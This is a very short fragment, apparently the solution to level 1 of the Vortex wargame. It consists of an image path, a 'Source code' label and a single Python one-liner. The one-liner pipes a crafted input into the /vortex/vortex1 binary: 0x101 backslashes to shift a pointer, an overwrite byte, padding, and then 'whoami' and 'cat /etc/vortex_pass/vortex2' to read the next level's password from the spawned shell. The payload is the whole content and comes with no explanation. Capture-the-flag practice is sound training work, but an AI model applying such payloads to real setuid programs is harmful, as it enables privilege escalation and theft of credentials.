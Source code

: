 python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*4000+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1